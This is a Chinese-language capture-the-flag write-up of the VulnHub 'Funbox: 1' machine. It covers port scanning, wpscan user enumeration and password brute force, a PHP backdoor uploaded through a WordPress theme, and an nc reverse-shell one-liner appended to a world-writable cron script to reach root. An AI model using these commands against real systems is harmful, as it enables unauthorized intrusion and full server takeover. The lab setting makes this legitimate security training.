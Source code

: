 # Funbox: 1

2024-5-23 https://www.vulnhub.com/entry/funbox-1,518/

difficulty: easy

## IP

192.168.5.30

## Scan

Open Port -> 21,22,80,33060

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d2f6531b5a497d748d44f546e39329d3 (RSA)
|   256 a6836f1b9cdab4418c29f4ef334b20e0 (ECDSA)
|_  256 a65b800350199166b6c398b8c44f5cbd (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/secret/
|_http-title: Did not follow redirect to http://funbox.fritz.box/
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
```

21 ftp 端口不允许匿名登陆。

22 ssh banner 没提示信息。

mysql 暂时也没 root 用户密码，先看看 80 web 服务有什么信息，跳转到了 funbox.fritz.box 域名，看样子要在本地/etc/hosts 文件中添加这个域名。

http://funbox.fritz.box/ 主页是 wordpress 搭建的网站，还是老方法，wpscan 找用户，然后爆破找密码。

```
wpscan --url http://funbox.fritz.box/ -e u
```

找到用户名: admin 和 joe

使用 rockyou 作为字典，进行爆破：

```
wpscan --url http://funbox.fritz.box/ -U user.txt -P ~/tools/dict/rockyou.txt  -t 30

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire
```

2 个用户的密码已经找到，登陆到 wp 看看有没有修改页面的权限，能够写入后门代码。

joe 没有修改权限，admin 有修改权限。

admin 登陆后，在 Themes 中 Add New ，然后在/wp-content/uploads 目录中就能找到我们的后门 php 代码。kali 上监听 8888 端口，访问后门代码，激活反弹 shell：

```
curl http://funbox.fritz.box/wp-content/uploads/2024/05/8888.php
```

先升级下 tty，查询到 wordpress 的数据库配置文件：

```
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'wordpress');
define('DB_HOST', 'localhost');
```

/home/funny 文件夹中发现一个 backup.sh 文件：

```
www-data@funbox:/home/funny$ cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
```

是定时本非/var/www/html 文件夹中的内容到 funny 目录。

通过观察发现，这个脚本 2 分钟执行一次：

```
-rw-rw-r-- 1 funny funny 48701440 May 23 04:45 html.tar
-rw-rw-r-- 1 funny funny 48701440 May 23 04:46 html.tar
```

这个脚本有全局写权限，可以将我们的攻击代码写入到脚本中，等待 2 分钟，就能得到反弹的 shell。目标机器上有 nc，所以使用 nc 反弹：

```
cd /home/funny
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.5.3 7777 >/tmp/f' >> .backup.sh
```

得到了反弹的 shell：

```
funny@funbox:~$ id
id
uid=1000(funny) gid=1000(funny) groups=1000(funny),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

经过对系统枚举，sudo、suid、cap 等都没发现可利用点。观察了 html.tar 的生成时间，使用 pspy 进行监控，发现每隔 5 分钟以 root 权限用户又生成了一次。

在每 5 分钟前创建监听，避开每 2 分钟的反弹，最后反弹的 shell 是 root 的:

```
root@funbox:~# cat flag.txt
cat flag.txt
Great ! You did it...
FUNBOX - made by @0815R2d2

crontab -l
*/5 * * * * /home/funny/.backup.sh
```

funny 属于 lxd 用户组，也可以用 lxc 进行升级，可将/root 目录挂在到/mnt/root/中，利用方法 https://www.hackingarticles.in/lxd-privilege-escalation/
